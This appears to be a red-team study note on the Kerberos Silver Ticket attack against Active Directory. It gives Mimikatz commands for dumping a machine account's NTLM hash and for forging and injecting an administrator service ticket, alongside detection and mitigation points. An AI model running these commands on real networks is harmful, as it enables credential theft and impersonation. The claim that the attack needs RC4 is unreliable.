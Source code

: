 :PROPERTIES:
:ID:       302b147c-f615-4e92-b84c-b81d182dab10
:END:
#+title: Silver Ticket
#+filetags: :kerberos:activeDirectory:
#+hugo_base_dir:../


** Silver Ticket

A Silver Ticket is a forged **Kerberos Service Ticket (TGS)** that allows access to a specific service without contacting a Domain Controller. It is created using the **NTLM hash of the target service account**, often a computer account (e.g., `HOST/`, `HTTP/`).

*** Overview
- Forged TGS for a specific service
- Does not require communication with a Domain Controller
- Uses the **service account's NTLM hash**, not KRBTGT
- Lower privilege, more stealthy than a Golden Ticket

*** Prerequisites
- SYSTEM or Administrator access on a domain-joined machine
- Knowledge of:
  - NTLM hash of the target service account (e.g., machine account or managed service account)
  - SPN (Service Principal Name)
  - Domain name & FQDN
  - Domain SID

*** Key Concepts
- *Service Ticket (TGS)*: Used to authenticate to a service (e.g., CIFS, MSSQL, HTTP)
- *SPN*: Tied to the service account; uniquely identifies the Kerberos service
- *Computer account NTLM hash* = used to sign TGS for that host
- Bypasses the KDC entirely; invisible to the Domain Controller

*** Mimikatz Commands

**** Get NTLM Hash of the Service Account
Typically done via secretsdump.py, DCSync, or LSASS dump.

From Mimikatz (on DC or machine with SYSTEM access):
#+begin_src powershell
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:TARGETHOST$
#+end_src

Look for:
NTLM: 92f8c3cbd7e9fc367ea85e3e05b47b0f


*** Create and Inject Silver Ticket
#+begin_src powershell
mimikatz # kerberos::golden /user:administrator /domain:corp.local /sid:S-1-5-21-1234567890-2345678901-3456789012 /target:targethost.corp.local /service:cifs /rc4:92f8c3cbd7e9fc367ea85e3e05b47b0f /ptt /id:500
#+end_src

Explanation:
- `/user`: User to impersonate (e.g. administrator)
- `/domain`: Target domain
- `/sid`: Domain SID
- `/target`: FQDN of the service host (e.g. `host.corp.local`)
- `/service`: SPN prefix (e.g. `cifs`, `http`, `mssqlsvc`)
- `/rc4`: NTLM hash of service account
- `/id`: RID of impersonated user
- `/ptt`: Injects ticket into memory

*** Validate Access
Example:
#+begin_src powershell
dir \\targethost\c$
klist
whoami
#+end_src

You should now have access to the service (e.g. `\\host\c$`).

** Common Target SPNs
- `CIFS/host.domain` – file shares
- `HTTP/host.domain` – web apps, SharePoint
- `MSSQLSvc/host.domain:1433` – SQL Server
- `WSMAN/host.domain` – WinRM

** Impact
- Access to specific services as a forged user
- No logs on Domain Controller (KDC not involved)
- Great for lateral movement or persistence
- Useful when Golden Ticket is too noisy

** Detection
- Service tickets without corresponding TGT issuance
- Unusual user/service pairings
- Tickets from nonexistent users
- `Event ID 4624` logons to services with no matching `4768/4769` events

** Mitigation
- Use AES-only authentication (silver ticket needs RC4)
- Rotate service account passwords regularly
- Restrict and monitor service account privileges
- Deploy Defender for Identity / endpoint telemetry

** References
- https://adsecurity.org/?p=2011
- https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview
- https://www.harmj0y.net/blog/redteaming/kerberos-attacks-part-2/
